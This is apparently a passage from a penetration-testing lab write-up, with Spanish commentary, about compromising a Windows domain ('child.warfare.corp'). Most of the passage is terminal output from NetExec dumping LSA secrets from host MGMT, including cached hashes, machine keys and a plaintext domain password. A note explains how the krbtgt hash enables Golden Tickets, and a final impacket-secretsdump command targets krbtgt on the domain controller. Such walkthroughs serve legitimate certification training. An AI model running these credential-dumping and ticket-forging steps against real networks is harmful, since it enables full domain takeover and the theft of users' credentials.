 ```bash
[20:38:08] INFO     Socket info: host=192.168.98.30, hostname=192.168.98.30, kerberos=False, ipv6=False, link-local ipv6=False                                                                                                             connection.py:165
           INFO     Creating SMBv3 connection to 192.168.98.30                                                                                                                                                                                    smb.py:606
[20:38:10] INFO     Creating SMBv1 connection to 192.168.98.30                                                                                                                                                                                    smb.py:575
[20:38:11] INFO     SMBv1 disabled on 192.168.98.30                                                                                                                                                                                               smb.py:598
           INFO     Resolved domain: child.warfare.corp with dns, kdcHost: 192.168.98.30                                                                                                                                                          smb.py:321
SMB         192.168.98.30   445    MGMT             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:False) 
           INFO     Creating SMBv3 connection to 192.168.98.30                                                                                                                                                                                    smb.py:606
SMB         192.168.98.30   445    MGMT             [+] child.warfare.corp\john:User1@#$%6 (Pwn3d!)
SMB         192.168.98.30   445    MGMT             [+] Dumping LSA secrets
SMB         192.168.98.30   445    MGMT             CHILD.WARFARE.CORP/john:$DCC2$10240#john#9855312d42ee254a7334845613120e61: (2025-01-17 14:47:56)
SMB         192.168.98.30   445    MGMT             CHILD.WARFARE.CORP/corpmngr:$DCC2$10240#corpmngr#7fd50bbab99e8ea7ae9c1899f6dea7c6: (2025-06-23 09:56:19)
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:aes256-cts-hmac-sha1-96:344c70047ade222c4ab35694d4e3e36de556692f02ec32fa54d3160f36246eec
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:aes128-cts-hmac-sha1-96:aa5b3d84614911fe611eafbda613baaf
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:des-cbc-md5:6402e0c20b89d386
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:plain_password_hex:4f005d003b006f0074005d003500760067002f0032007a0046004e0020004d00700023003600570031005000770041002600700055003d005a0047006100370033003e003b0032004600410059002a006b0046004400410069003e00530066006a0033006e0061007a004e0060003300590063005e0048006c005c0053003e003e0033003c007300500043007a002500300031004b00610060002000540033007a003f004200580048002f0068006d0052006f0027005b00520061003b003a0075002b0050004a005d006b003c006d004c00730045005d005b0074006c004b00760045005c00280059003a0066002000
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:aad3b435b51404eeaad3b435b51404ee:0f5fe480dd7eaf1d59a401a4f268b563:::
SMB         192.168.98.30   445    MGMT             dpapi_machinekey:0x34e3cc87e11d51028ffb38c60b0afe35d197627d
dpapi_userkey:0xb890e07ba0d31e31c758d305c2a29e1b4ea813a5
SMB         192.168.98.30   445    MGMT             corpmngr@child.warfare.corp:User4&*&*
SMB         192.168.98.30   445    MGMT             [+] Dumped 9 LSA secrets to /home/kali/.nxc/logs/lsa/MGMT_192.168.98.30_2025-08-24_203810.secrets and /home/kali/.nxc/logs/lsa/MGMT_192.168.98.30_2025-08-24_203810.cached
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Downloads/crta]
└─$ 

# La cuenta krbtgt es la encargada de firmar todos los tickets Kerberos en el dominio.

Si obtienes su hash o su clave AES, puedes generar tus propios tickets Kerberos válidos (Golden Tickets).

Con un Golden Ticket puedes hacerte pasar por cualquier usuario (incluso Administrador de Dominio) y acceder a cualquier servicio del dominio, sin importar contraseñas.



┌──(kali㉿kali)-[~/Downloads/crta]
└─$ impacket-secretsdump -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'
```